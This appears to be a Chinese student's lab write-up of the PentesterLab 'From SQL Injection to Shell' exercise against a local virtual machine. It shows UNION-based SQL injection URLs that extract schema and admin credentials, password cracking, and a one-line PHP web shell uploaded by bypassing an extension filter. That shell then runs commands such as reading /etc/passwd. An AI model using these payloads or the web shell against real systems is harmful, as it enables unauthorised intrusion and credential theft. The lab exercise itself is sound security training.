





# From SQL Injection To Shell

### 网络拓扑环境
- shell_servicer：下载iso镜像安装，网络模式为NAT 网络，作为服务器<br>

- shell_attacker：使用自己安装的kali虚拟机，网络模式为NAT 网络，作为攻击者<br>


### 实验步骤
- 在攻击者上扫描服务器IP `netdiscover -r 10.0.2.0/24`<br>

- 攻击者和服务器可以相互ping通<br>

- 指纹识别:收集有关Web应用程序和正在使用的技术的信息。
  - 用nmap扫描服务器，查看其端口情况以及MAC地址
  
  - 通过浏览器识别网页的源代码，可以检测到应用程序是PHP写的  [view-source](https://blog.csdn.net/yuwq123/article/details/79481829)<br>
  
  - 使用burpsuite查看http响应包头，提取更多有效信息
    - 浏览器设置代理
    
    - 浏览器设置代理之后是不能直接访问网页的，因为我们没有将请求转发，接下来就需要配置burpsuite来转发浏览器的请求。
    
    - 关闭intercept<br>
    
    - attacker上访问http://10.0.2.11
    - burpsuite劫持http的request和response进行分析,可以看出服务器是建立在Apache2.0上的，网页使用PHP/5.3.3-7+squeeze14
    
  - wfuzz检测Web服务器上的目录和页面。
  
- 检测SQL的注入
  - 基于整数的检测
    - 访问`url /article.php?id=1 `将生成以下请求：` SELECT * FROM articles WHERE id=1`
    - 访问 `/article.php?id=1 `和 `/article.php?id=2-1`生成的是一个页面，数据库直接做了减法，可能有SQL注入
    
    
  - 基于字符串的检测
    - 作为一般规则，奇数个单引号将引发错误，偶数个单引号将不会.
    `http://10.0.2.11/cat.php?id=1'`
    
    - 若加上`--`表示后面的内容被注释掉
    `http://10.0.2.11/cat.php?id=1 --'or id=3` 
    
- 利用UNION实现SQL注入
  - 猜列数：
    - 原理：UNION前后select语句的列数必须保持一致，不然会报错；order by x x的值必须小于或等于数据库中的列数
    - 方法一：UNION<br>
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,2,3`
    
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,2,3,4`
    
    - 方法二：order by<br>
    `http://10.0.2.11/cat.php?id=1 order by 4`
    
    `http://10.0.2.11/cat.php?id=1 order by 5`
    
    - 由此可以猜测，数据库有4列
  - 应用
    - 根据union select1,2,3,4的结果我们可以猜测，想要的信息在第2列
    - 数据库版本信息
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,@@version,3,4`
    
    - 当前用户
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,current_user,3,4`
    
    - 当前数据库
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,database(),3,4`
    
    - 当前数据库中所有表的名称
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.tables`
    
    - 当前数据库中所有列的名称
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`
    
    - 表名和列名的对应关系<br>
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`
    
    - 获取用于访问管理页面的用户名和密码：通过获取表名和列名对应关系，我们可以找到用户表，发现里面的列有password，id，login
    
    `http://10.0.2.11/cat.php?id=1 UNION SELECT 1,concat(login, : ,password),3,4 FROM users`
    
- 访问管理页面和代码执行
  - 破解密码
    - 利用在线破解工具破解，结果是：`P4ssw0rd `
    
    - John-The-Ripper破解:使用password.lst破解失败，换成rockyou.txt成功
    
    
  - 代码注入
    - 登陆管理页面`http://10.0.2.11/admin/index.php`，可以对进行上传和删除图片操作
    
    
    - 本地创建一个最简单的`shell.php`页面
    ```
    <?php 
      system($_GET['cmd']);
    ?>
    ```
    - 点击`New pictures`上传`shell.php`发现不能访问
    
    
    - 将`shell.php`后缀改成`.php3`或`.php.test`(没有展示，但实验证明可以)可以绕过.php过滤
    
    
    - 点击上传的shell，查看<img标签
    
    - 利用url执行cmd命令获取服务器信息
      - `http://10.0.2.11/admin/uploads/shell.php3?cmd=uname`<br>返回服务器内核
      
      - `http://10.0.2.11/admin/uploads/shell.php3?cmd=cat /etc/passwd`<br> 获取系统用户的完整列表
      
      - `http://10.0.2.11/admin/uploads/shell.php3?cmd=ls /etc`<br> 获取当前目录的内容
      
      - `http://10.0.2.11/admin/uploads/shell.php3?cmd=whoami`发现我是属于www-data用户组。那么是不能执行的，权限太低,或者到ifconfig目录下运行
      
      

### 参考文档
- [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
- [from_sql_to_shell.md](https://github.com/choitop/ns/blob/f484bac28f8215205ba8e4bc5f66afdcbf6d4b03/2017-2/LAB_whx/LAB3/from_sql_to_shell.md)